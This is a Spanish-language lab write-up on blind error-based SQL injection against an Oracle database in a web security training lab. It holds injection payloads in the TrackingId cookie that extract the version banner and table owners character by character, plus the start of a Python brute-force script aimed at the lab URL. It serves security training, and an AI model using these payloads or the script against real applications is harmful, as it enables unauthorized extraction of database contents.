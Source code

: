 ```

if __name__ == '__main__':
    makeRequest()
```

Vemos que nos encontramos ante una `base` de `datos` de `Oracle`

```
# python sqli_conditional_error.py 
[q] Fuerza bruta: C5PhDxyLUgYK5wqP'||(select case when (substr((select listagg(banner, ' ') within group (order by banner) from v$version), 225, 1) = 'n') then to_char(1
[p] Output: CORE%11%2%0%2%0%Production%NLSRTL%Version%11%2%0%2%0%%%Production%Oracle%Database%11g%Express%Edition%Release%11%2%0%2%0%%%64bit%Production%PL%SQL%Release%11%2%0%2%0%%%Production%TNS%for%Linux%%Version%11%2%0%2%0%%%Production
```

Para verlo más claramente podemos `aplicar` una `sustitución` 

```
# echo 'CORE%11%2%0%2%0%Production%NLSRTL%Version%11%2%0%2%0%%%Production%Oracle%Database%11g%Express%Edition%Release%11%2%0%2%0%%%64bit%Production%PL%SQL%Release%11%2%0%2%0%%%Production%TNS%for%Linux%%Version%11%2%0%2%0%%%Production' | tr '%' ' '
CORE 11 2 0 2 0 Production NLSRTL Version 11 2 0 2 0   Production Oracle Database 11g Express Edition Release 11 2 0 2 0   64bit Production PL SQL Release 11 2 0 2 0   Production TNS for Linux  Version 11 2 0 2 0   Production
```

`Obtenemos` el la `longitud` de todos los `propietarios`

```
Cookie: TrackingId=lnS9gSlm0CA61ePa'||(select case when (length((select listagg(owner, ' ') within group (order by owner) from all_tables)) = 422) then to_char(1/0) else null end from dual)||'; session=kozeaHyWxCxfjMUuZubvmHN0cIIi9ZTX
```

Vamos a utilizar este `payload` para `obtener` a los `propietarios`

```
Cookie: TrackingId=C5PhDxyLUgYK5wqP'||(select case when (substr((select listagg(owner, ' ') within group (order by owner) from all_tables), 1, 1) = 'a') then to_char(1/0) else null end from dual)||'; session=kozeaHyWxCxfjMUuZubvmHN0cIIi9ZTX
```

Vamos a usar este `script` para `iterar` sobre el `payload` anterior para obtener el nombre de todos los `propietarios`

```
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig,frame):
    print("\n\n[!] Saliendo ...\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

url = "https://0a03001f0321a894846b408000610088.web-security-academy.net/"
characters = "".join(sorted(set(char for char in string.printable if char.isprintable() and char != " "), key=string.printable.index))

def makeRequest():
    output = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

```